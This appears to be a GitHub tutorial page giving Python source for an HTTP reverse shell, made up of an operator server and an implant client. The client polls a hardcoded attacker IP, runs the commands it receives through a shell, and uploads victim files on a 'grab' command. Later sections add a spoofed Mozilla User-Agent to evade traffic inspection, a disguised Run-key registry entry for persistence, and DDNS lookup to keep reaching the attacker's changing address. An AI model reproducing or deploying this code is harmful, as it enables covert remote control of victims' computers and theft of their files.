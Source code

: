 # HTTP reverse shell

*httpserver.py* :

```python
import http.server
import os, cgi

HOST_NAME = "192.168.1.42"
PORT_NUMBER = 8080

class MyHandler(http.server.BaseHTTPRequestHandler):
    
    def do_GET(self):
        command = input("Shell> ")
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(command.encode()) # equivalent to send() function in tcp reverse shell

    def do_POST(self):
        if self.path == '/store':
            try:
                ctype, pdict = cgi.parse_header(self.headers.get('content-type'))
                if ctype == 'multipart/form-data':
                    fs = cgi.FieldStorage(fp=self.rfile, headers = self.headers, environ={'REQUEST_METHOD': 'POST'})
                else:
                    print('[!!] Unexpected POST request')
                fs_up = fs['file']
                with open('/root/place_holder.txt', 'wb') as o:
                    print("[+] Writing file...")
                    o.write(fs_up.file.read())
                    self.send_response(200)
                    self.end_headers()
            except Exception as e:
                print(e)
            return
        self.send_response(200)
        self.end_headers()
        length = int(self.headers['Content-length'])
        postVar = self.rfile.read(length) # equivalent to recv() function in tcp reverse shell

        print(postVar.decode())

if __name__ == "__main__":
    server_class = http.server.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print("[ ] Server is terminated")
        httpd.server.close()

```

*httpclient.py* :
```python
import requests
import os
import subprocess
import time

while True:
    req = requests.get('http://192.168.1.42:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.1.42:8080/store" # /store means that we are sending a file over http
            files = {'file': open(path, 'rb')} # here we need to pass a dictionnary with a key named "file" and the object is the file itself
            r = requests.post(url, files=files) # be aware that file contain header "multipart/form-data"
    else:
        CMD = subprocess.Popen(command, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.1.42:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.1.42:8080', data=CMD.stderr.read())
    time.sleep(3)
```

For now on a POST looks like this in wireshark :<br>
<img src=https://github.com/sirbrowser/astroworld/blob/master/images/wireshark.png><br>
We can see that the user-agent is not legit at all so we need to change it in clienthttp.py:<br>
We add a variable `headers = {'User-Agent': 'mozilla/5.0'}`<br>
And in each we add this variable in all requests.post : `r = requests.post(url, files=files, headers=headers)`<br>

Now we have this in wireshark :<br>
<img src=https://github.com/sirbrowser/astroworld/blob/master/images/wireshark2.png><br>

For making our reverse shell persistent we need to add to the client.py:<br>
```python
path = os.getcwd().strip('\n') # getcwd = get current working directory

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\AppData\\' + '\\roaming\\' + 'client.exe'

if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination)
    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()
```

#### DDNS Aware shell
The problem here is that our attacker ip can change and you have to change the client.py.<br>
For this we can use [noip](https://www.noip.com/) that will reserve a dns server and address dynamically the adress in our client.py:<br>
in the main we need to add :<br>
`ip = socket.gethostbyname("<your ddns.net server>")`<br>
and add that ip variable in the `s.connect(())` function<br>


